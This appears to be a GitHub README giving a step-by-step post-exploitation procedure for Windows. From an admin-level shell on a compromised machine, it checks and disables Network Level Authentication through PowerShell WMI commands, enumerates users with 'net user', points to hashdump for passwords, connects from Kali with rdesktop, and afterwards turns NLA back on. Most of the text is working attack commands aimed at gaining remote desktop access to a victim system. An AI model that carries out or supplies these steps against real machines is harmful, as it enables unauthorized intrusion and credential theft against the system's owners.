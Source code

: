 ## WARNING
-DO THIS AT YOUR OWN RISK :) 

1. Please ensure RDP is allowed on this system.(RDP is allowed on Windows Pro Only,Windows Home **Does NOT** support RDP) 
2. Shell Needed Requires Admin Privilege.
3. Powershell MUST be Used !
4. You will need the password of the Desktop you are connecting to save time.
 
## Here are the Steps 

1. Once you have Admin Level Shell

2. Run a Sysinfo to see the Name of the Desktop.

      Image is seen below:

      ![alt text](resources/rpc_images/sysinfo.PNG)

3. In the Powershell, 
  You need to establish the Variable of the Name of the System.
   
   Follow the Codes in Order :-
    
   - `shell`
    
   - `powershell`
    
   - `$ComputerName = " NAME SEEN IN SYSINFO "`
  
    Image is seen below:

    ![alt text](resources/rpc_images/Variable.PNG)
      
4. Once you have done this, You will need to check if you require Network Level Authentication(NLA).
    Use the Following command to check if you do not know:-
    
    `(Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName $ComputerName -Filter "TerminalName='RDP-tcp'").UserAuthenticationRequired`
    
    
    **If "1" is returned, it means NLA is on.**
    
    
    **If "0" is returned, it means NLA is off.**
    
    
    Image is seen below:

    ![alt text](resources/rpc_images/CheckingNLA.PNG)
    
5. Since we do not have Network Level Authentication(NLA), We need to turn off the NLA. 
   Using Admin Level Powershell,
   
    `(Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName $ComputerName -Filter "TerminalName='RDP-tcp'").SetUserAuthenticationRequired(0)`
  
      
      Image is seen below:

    ![alt text](resources/rpc_images/TurnOffNLA.PNG)
  
    Now It will be turned off.
    Use Number 4 command to check if it worked. 
  
      Image is seen below:

      ![alt text](resources/rpc_images/TurnedOffNLA.PNG)
  
6. Since now it is off, we can connect using our normal shell in our own machine.
    Ue the command in Kali Linux Shell to connect:-
  
    `rdesktop <IP ADDRESS> -u <Username> -p <Usermame's Password>`
    
    Image is seen below:

    ![alt text](resources/rpc_images/rdesktop.PNG)

    ![alt text](resources/rpc_images/connectedRPC.PNG)
    
    **- If you do not know the Username, run the command `net user` in the Powershell**
    
     Image is seen below:

     ![alt text](resources/rpc_images/net_user.PNG)
    
    **- If you do not know the Username's Password, hashdump will be required.**
    
    
7. Once you have finished with everything, to reactivate the Network Level Authentication(NLA).
    Using the Admin Level Powershell,
    
     `(Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName $ComputerName -Filter "TerminalName='RDP-tcp'").SetUserAuthenticationRequired(1)`

    Image is seen below:

    ![alt text](resources/rpc_images/TurnOnNLA.PNG)

    Now It will be turned off.
    Use Number 4 command to check if it worked.
   
    Image is seen below:

    ![alt text](resources/rpc_images/TurnedOnNLA.PNG)

  
